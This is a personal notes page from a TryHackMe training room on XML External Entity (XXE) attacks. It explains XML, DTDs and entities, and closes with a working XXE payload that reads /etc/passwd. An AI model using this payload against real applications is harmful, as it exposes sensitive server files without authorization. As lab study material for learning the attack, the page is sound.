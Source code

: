 # TryHackMe: Complete Beginner (Supplements)

**author**:: Nathan Acks  
**date**:: 2021-12-09

## XXE

### Deploy the VM

I think I've basically done a different version of this room…

Anyways, two types of XML External Entity (XXE) attacks:

* IN-BAND attacks are where the attacker receives an immediate response.
* OUT-OF-BAND ("blind") attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker's control).

### eXtensible Markup Language

Some things to remember about XML documents:

* Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not *technically* compulsory, but some parsers will barf if it's missing.
* Every XML document has one and *only* one root element.
* XML is case sensitive.

### DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to,from,heading,body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
	<to>falcon</to>  
	<from>feast</from>  
	<heading>hacking</heading>  
	<body>XXE attack</body>  
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for "printable character data.

The DTD can also define multiple ENTITY types - `&amp;` and similar.

```xml
<!DOCTYPE userInfo [
	<!ENTITY name "feast">
]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined *in line*, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files… Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application's input sanitization is.

